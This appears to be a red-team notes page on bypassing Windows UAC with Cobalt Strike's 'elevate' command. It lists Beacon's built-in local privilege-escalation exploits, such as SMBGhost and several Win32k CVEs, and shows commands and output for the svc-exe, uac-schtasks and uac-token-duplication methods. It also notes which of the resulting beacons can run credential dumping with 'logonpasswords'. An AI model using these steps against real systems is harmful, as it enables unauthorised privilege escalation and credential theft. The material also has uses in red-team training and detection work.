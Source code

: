 # Bypass UAC

In cobalt strike there are two automatic ways to bypass UAC, with `elevate` and `runasadmin`.


## Elevate Command

`elevate` command has two exploits, using Service Control Manager or via token duplication.

```
beacon> elevate

Beacon Local Exploits
=====================

    Exploit                         Description
    -------                         -----------
    cve-2020-0796                   SMBv3 Compression Buffer Overflow (SMBGhost) (CVE 2020-0796)
    ms14-058                        TrackPopupMenu Win32k NULL Pointer Dereference (CVE-2014-4113)
    ms15-051                        Windows ClientCopyImage Win32k Exploit (CVE 2015-1701)
    ms16-016                        mrxdav.sys WebDav Local Privilege Escalation (CVE 2016-0051)
    svc-exe                         Get SYSTEM via an executable run as a service
    uac-schtasks                    Bypass UAC with schtasks.exe (via SilentCleanup)
    uac-token-duplication           Bypass UAC with Token Duplication
```

Not all UAC bypasses are created equal, and does not have same `TokenPrivileges`.

### svc-exe

```
beacon> elevate svc-exe tcp-4444
Started service 96d2381 on .
[+] established link to child beacon: 10.10.10.10
```
> **Note**: The beacon obtained with `svc-exe` bypass will have the necessary token privileges to run post-ex commands such as `logonpasswords`.

### uac-schtasks

Similar to `svc-exe`.

```
beacon> elevate uac-schtasks tcp-4444
[*] Tasked Beacon to run windows/beacon_bind_tcp (127.0.0.1:4444) in a high integrity context
[+] established link to child beacon: 10.10.10.10
```

### uac-token-duplication

```
beacon> elevate uac-token-duplication tcp-4444
Started service 96d2381 on .
[+] established link to child beacon: 10.10.10.10
```
> **Note**: The beacon obtained with `uac-token-duplicatio` bypass is limited and some post-ex command such as `logonpasswords` will fail due to the lack of some TokenPrivileges.
